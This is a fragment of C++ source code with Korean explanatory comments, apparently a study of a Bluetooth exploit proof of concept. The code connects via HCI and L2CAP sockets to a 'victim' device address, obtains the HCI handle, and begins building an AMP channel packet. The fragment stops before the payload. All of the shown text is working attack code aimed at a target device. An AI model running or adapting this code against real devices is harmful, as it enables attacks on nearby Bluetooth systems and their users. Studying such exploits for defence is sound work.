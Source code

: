 ```c++
  }

  // HCI socket 옵션 설정 - HCI_DATA_DIR(1)
  int opt = 1; // 값을 1로 설정.
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  // HCI socket으로 공격 대상에 연결
  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0}; // local bd addr
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;    // line 89: hci socket에 설정된 bdaddr

  struct sockaddr_l2 raddr = {0}; // remote bd addr
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;     // line 79: 실행인자로 받은 공격대상 bdaddr

  int l2_sock;

  // l2통신 소켓 생성
  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  // bind
  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  // connect
  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  // 연결된 상태의 socket으로부터 option(연결정보) 획득
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  // HCI 통신을 위한 handle 생성
  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  /*
  첫 번째 통신
   - AMP 채널 형성
   - AMP는 고속 통신을 위한 채널이라고 함. 
  */
  printf("[*] Creating AMP channel...\n");
  struct {
    l2cap_hdr hdr;
  } packet1 = {0};
  packet1.hdr.len = htobs(sizeof(packet1) - L2CAP_HDR_SIZE);
  packet1.hdr.cid = htobs(AMP_MGR_CID);
```